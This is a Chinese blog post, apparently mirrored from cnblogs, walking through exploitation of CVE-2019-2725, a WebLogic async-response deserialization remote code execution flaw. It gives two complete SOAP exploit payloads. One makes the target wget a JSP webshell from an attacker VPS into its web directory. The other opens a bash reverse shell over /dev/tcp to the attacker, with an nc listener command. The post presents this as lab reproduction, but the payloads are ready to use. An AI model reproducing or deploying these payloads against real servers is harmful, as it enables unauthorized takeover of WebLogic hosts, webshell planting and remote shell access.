



# cve-2019-2725 反序列化远程代码执行 - Null1433 - 博客园

> 原文：[`www.cnblogs.com/null1433/p/12674614.html`](https://www.cnblogs.com/null1433/p/12674614.html)

描述：部分版本 WebLogic 中默认包含的 wls9_async_response 包，为 WebLogic Server 提供异步通讯服务。由于该 WAR 包在反序列化处理输入信息时存在缺陷，攻击者可以发送精心构造的恶意 HTTP 请求，获得目标服务器的权限，在未授权的情况下远程执行命令。

具体原理分析自行百度。。。

影响版本

10.3.6

12.1.3

检测脚本

[`github.com/lufeirider/CVE-2019-2725`](https://github.com/lufeirider/CVE-2019-2725)

复现参考

[`www.dazhuanlan.com/2019/12/31/5e0ad7859c00f/`](https://www.dazhuanlan.com/2019/12/31/5e0ad7859c00f/)

漏洞验证

访问  _async/AsyncResponseService   ，一般存在以下页面的都可能存在，具体得检测，我也是找了很多靶场存在这个页面，但不存在漏洞


漏洞复现

POC 需要事先准备远程下载的大马 txt，  直接 wget 下载个 jsp 大马上去，或者反弹 shell 到 VPS

直接访问抓包  ，把 GET 请求改成 POST，然后上 POC

注:代码执行需分清服务器是 windows 和 linux

服务器为 linux 可以上传 webshell 可以利用 curl 下载到目标服务器

<string>wget http://vpsIP:Port/JspSpy.jsp.txt -O servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/2.jsp</string>



 返回 202 说明执行了命令

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>wget http://vpsip/JspSpy.jsp.txt -O servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/2.jsp</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

已经远程下载 2.jsp 大马到目标服务器，访问目标靶机 webshell 页面（http://ip:port/_async/2.jsp），成功访问



反弹 shell

直接把上方红色字体命令替换成反弹命令即可

<string>bash -i &gt;&amp; /dev/tcp/vpsip/端口 0&gt;&amp;1</string>

监听端口

nc -lvnp 6666 

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/vpsip/端口 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

发送数据包，执行命令



成功反弹

